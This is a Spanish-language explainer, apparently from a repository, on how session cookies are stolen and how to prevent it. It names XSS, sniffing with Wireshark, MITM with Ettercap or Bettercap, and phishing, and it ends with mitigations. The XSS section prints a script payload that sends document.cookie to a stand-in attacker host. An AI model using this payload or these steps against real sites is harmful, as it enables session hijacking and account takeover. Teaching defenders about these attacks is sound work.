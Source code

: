 ## **Condiciones necesarias para un robo de sesión**

1. **Uso de cookies vulnerables:**    
   - Las cookies no deben tener protección con atributos como **HttpOnly** o **Secure**.
   - Las cookies no deben estar cifradas correctamente o deben transmitirse por HTTP en lugar de HTTPS.

2. **Conexión insegura:**
   - Las víctimas acceden al servicio por **redes públicas o no cifradas**, como Wi-Fi abiertas.

3. **Vulnerabilidades en el sitio web:**
   - El sitio podría ser vulnerable a ataques de **Cross-Site Scripting (XSS)**, permitiendo la inyección de scripts maliciosos para robar cookies.
   - Falta de **expiración adecuada de la sesión**, lo que extiende la validez de la cookie.

---

## **Procedimientos para robar cookies**

### 1. **Mediante XSS (Cross-Site Scripting)**

- **Objetivo:** Inyectar un script en la página web de la víctima para obtener su cookie.
- **Ejemplo de payload:**
   javascript
    `<script>document.location='http://atacante.com?cookie=' + document.cookie;</script>`
- El atacante envía este enlace o script embebido en un sitio o mensaje malicioso. Si el usuario lo ejecuta, su cookie se envía al servidor del atacante.

---

### 2. **Mediante sniffing en redes públicas (captura de tráfico)**

- **Requisito:** El tráfico HTTP no está cifrado (no se usa HTTPS).
- **Herramienta:** Utilizar **Wireshark** para capturar paquetes.
- **Procedimiento:**
   1. Capturar el tráfico de red de la víctima en una Wi-Fi pública.
   2. Filtrar por cookies HTTP en los paquetes.
   3. Extraer la cookie y usarla en otro navegador para suplantar al usuario.

---

### 3. **Ataques con MITM (Man-in-the-Middle)**

- **Requisito:** El atacante se coloca entre la víctima y el servidor.
- **Herramientas:**
   - **Ettercap** o **Bettercap** para realizar MITM.
- **Procedimiento:**
   1. Interceptar el tráfico entre la víctima y el servidor.
   2. Extraer cookies no cifradas.
   3. Usar la cookie para acceder al servicio como si fuera el usuario legítimo.

---

### 4. **Ingeniería social o phishing**

- El atacante engaña al usuario para que acceda a un sitio clonado o haga clic en un enlace malicioso que extrae sus cookies mediante JavaScript.

---

## **Mitigaciones**

1. **Atributos de cookies seguros:**
   - Utilizar **HttpOnly** para evitar que las cookies sean accesibles desde JavaScript.
   - Aplicar **Secure** para que solo se transmitan por HTTPS.
2. **Cifrado TLS:**
   - Asegurar que todas las comunicaciones se realicen por HTTPS.
3. **Expiración de sesión:**
   - Forzar la caducidad de las cookies tras un periodo de inactividad.
4. **Protección contra XSS:**
   - Implementar filtrado y validación de entradas para prevenir XSS.
5. **Verificación de IP o agente:**
   - Asociar la sesión con la IP o el navegador para detectar anomalías.